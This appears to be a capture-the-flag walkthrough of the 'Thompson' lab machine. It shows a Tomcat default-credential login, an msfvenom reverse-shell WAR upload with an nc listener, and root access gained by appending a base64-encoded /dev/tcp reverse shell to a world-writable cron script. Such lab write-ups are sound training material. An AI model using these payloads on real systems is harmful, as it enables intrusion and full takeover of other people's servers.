







## TL;DR

We login using default credentials to the `tomcat` and upload malicious `.war` file for initiate a reverse shell.

We move to `root` using `cronjob` task that we control its script.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `8009` with some service related to apache and port `8080` with apache tomcat.
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                    
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                               
| ssh-hostkey:                                                                                                                                   
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0W
KYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCW
NjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1                                                     
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)                                                                                  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//
thL6K1lAAPGLxHMM=                                                                                                                                
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)                                                                                
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33                                                               
8009/tcp open  ajp13   syn-ack ttl 62 Apache Jserv (Protocol v1.3)                                                                               
|_ajp-methods: Failed to get a valid response for the OPTION request                                                                             
8080/tcp open  http    syn-ack ttl 62 Apache Tomcat 8.5.5                                                                                        
|_http-title: Apache Tomcat/8.5.5                                                                                                                
| http-methods:                                                                                                                                  
|_  Supported Methods: HEAD POST                                                                                                                 
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `thompson.thm` to my `/etc/hosts`.

### Login via default credentials to apache tomcat and upload reverse shell

I went to port `8080`, and tried several passwords at `/manager/html`, nothing works.



We can see that the default credentials are:
```bash
tomcat:s3cret
```

we managed to login:



Now, I want to generate `.war` file as reverse shell and upload it:
```bash
┌──(agonen㉿kali)-[~/thm/Thompson]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=192.168.138.59 LPORT=1337 -f war -o shell.war
Payload size: 13037 bytes
Final size of war file: 13037 bytes
Saved as: shell.war
```

We can upload it here, in the box:



Then, access the application we created, at the next location:
```bash
http://thompson.thm:8080/shell/
```

Don't forget to set up the local listener:
```bash
nc -nlvp 1337
```



We'll paste the payload of penelope to get easier reverse shell



and the user flag:
```bash
tomcat@ubuntu:/home/jack$ cat user.txt 
39400c90bc683a41a8935e4719f181bf
```

### Privilege Escalation to Root using cronjob

I checked the crontab:
```bash
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```

We can see it executes the script `id.sh` as root.
Luckily we control the script `id.sh`:
```bash
tomcat@ubuntu:/home/jack$ ls -la id.sh 
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
```

Let's add the penelope payload into it:
```bash
echo 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzguNTkvNDQ0NCAwPiYxKSAm|base64 -d|bash' >> id.sh
```

And just wait for the reverse shell to come



we can grab the root flag
```bash
root@ubuntu:~# cat root.txt 
d89d5391984c0450a95497153ae7ca3a
```
